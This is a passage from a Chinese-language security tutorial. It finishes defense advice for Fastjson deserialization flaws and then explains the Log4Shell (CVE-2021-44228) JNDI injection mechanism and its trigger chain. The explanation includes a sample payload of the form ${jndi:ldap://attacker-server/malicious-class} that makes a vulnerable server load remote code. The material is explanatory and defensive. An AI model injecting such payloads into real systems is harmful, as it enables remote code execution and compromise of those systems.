 2. **限制网络出站连接**

   禁止服务器主动发起对外部不可信地址的连接（如RMI/LDAP默认端口1099、389），通过防火墙或网络策略阻断攻击链中的通信环节。

3. **依赖管理与漏洞扫描**  

   1. 使用工具（如`dependency-check`、`OWASP Dependency-Check`）定期检测项目依赖，发现并移除老旧的Fastjson版本；  
   2. 集成静态代码扫描工具（如SonarQube），检测代码中是否启用了不安全的Fastjson配置（如未禁用autotype）。

4. **安全监控与应急响应**  

   1. 监控服务器日志中的异常行为（如JNDI调用、未知类加载）；  
   2. 部署入侵检测系统（IDS），拦截已知的Fastjson攻击Payload；  
   3. 制定应急方案：若发现漏洞被利用，立即隔离受影响系统，升级Fastjson并排查恶意代码。

5. **替代方案**

   若业务允许，可考虑使用更安全的JSON解析库（如Jackson、Gson），其默认配置对反序列化的限制更严格，风险较低。

#### 总结

Fastjson漏洞的本质是“不可信数据+危险类反序列化”的组合风险，防御核心在于**限制autotype的滥用**和**阻断恶意类的执行链**。通过升级版本、禁用autotype、配置白名单，并结合输入校验、网络限制等多层防护，可有效降低风险。同时，需加强依赖管理和安全监控，避免因历史版本或配置疏漏导致漏洞暴露。

## Log4j

Apache Log4j是Apache软件基金会旗下的开源日志组件，广泛应用于Java开发的各类系统（如电商平台、金融系统、物联网设备、中间件等），因其轻量、灵活的特性成为Java生态的“标配”日志工具。2021年11月披露的Log4j 2.x远程代码执行漏洞（CVE-2021-44228，漏洞别名Log4Shell），凭借“零门槛利用、全范围影响”的特点，成为当年最具破坏性的安全漏洞之一，甚至被评级为**CVSS 10.0（最高风险）**。

#### 漏洞核心原理：JNDI注入与日志解析的“致命结合”

Log4j漏洞的本质是**未对用户可控输入进行安全校验的JNDI注入漏洞**，其触发依赖Log4j 2.x的“Lookup功能”与Java的JNDI机制的联动，核心链路可拆解为三个关键环节：

##### 1. 关键前置：Log4j的Lookup功能

Log4j 2.x为增强日志灵活性，提供了“Lookup”机制，允许在日志输出时动态获取数据，支持多种数据源（如系统变量、环境变量、JNDI等）。例如：

- `${sys:user.name}`：获取系统用户名
- `${env:PATH}`：获取环境变量PATH
- `${jndi:ldap://example.com/obj}`：通过JNDI从LDAP服务器获取对象

该功能默认开启，且未对输入的Lookup表达式进行权限控制或危险过滤。

##### 2. 核心载体：JNDI机制的风险特性

JNDI（Java Naming and Directory Interface，Java命名和目录接口）是Java提供的一套目录服务API，用于将“名称”与“对象”关联，支持通过LDAP（轻量级目录访问协议）、RMI（远程方法调用）等协议从远程服务器获取对象实例。

关键风险点在于：当JNDI客户端通过协议（如LDAP）获取远程对象时，会**自动加载并执行对象对应的Java字节码**。若远程服务器返回的是恶意字节码（如包含命令执行逻辑的类），客户端执行后便会触发远程代码执行（RCE）。

##### 3. 漏洞触发链路

当用户输入的内容被Log4j 2.x记录为日志时，若输入中包含恶意的JNDI Lookup表达式，便会触发漏洞，完整链路如下：

1. **输入注入**：攻击者构造包含JNDI表达式的输入（如${jndi:ldap://攻击服务器/恶意类}），并将其传入目标系统（如通过表单提交、接口调用、日志打印参数等方式）；
2. **日志解析**：目标系统的Log4j 2.x组件接收到该输入并记录日志时，识别到${}格式的Lookup表达式，触发JNDI Lookup逻辑；
3. **远程请求**：目标系统通过JNDI协议（如LDAP）向攻击者控制的服务器发起请求，获取恶意对象的引用；
4. **代码执行**：目标系统自动加载并执行恶意对象对应的字节码，攻击者实现远程控制（如执行命令、窃取数据、植入木马等）。
